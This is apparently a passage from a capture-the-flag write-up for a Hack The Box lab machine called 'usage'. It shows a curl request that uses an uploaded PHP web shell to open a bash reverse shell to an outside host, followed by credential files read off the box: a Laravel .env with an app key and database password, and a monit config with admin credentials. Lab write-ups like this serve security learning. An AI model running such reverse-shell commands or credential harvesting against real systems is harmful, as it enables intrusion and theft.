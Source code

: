 ```bash
curl http://admin.usage.htb/uploads/images/shell.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/10.10.14.15/4444+0%3E%261%27
```

![picture alt](assets/user_flag.png)

```bash
dash@usage:/var/www/html/project_admin$ cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:oMsNNEsunFZxVvNVc0pfq7Gbn8hWGURpQLAgH6/dktA=
APP_DEBUG=false
APP_URL=http://admin.usage.htb

LOG_CHANNEL=stack
LOG_DEPRECATIONS_CHANNEL=null
LOG_LEVEL=debug

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=usage_blog
DB_USERNAME=staff
DB_PASSWORD=s3cr3t_c0d3d_1uth

BROADCAST_DRIVER=log

```

```bash
cat .monitrc 
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
```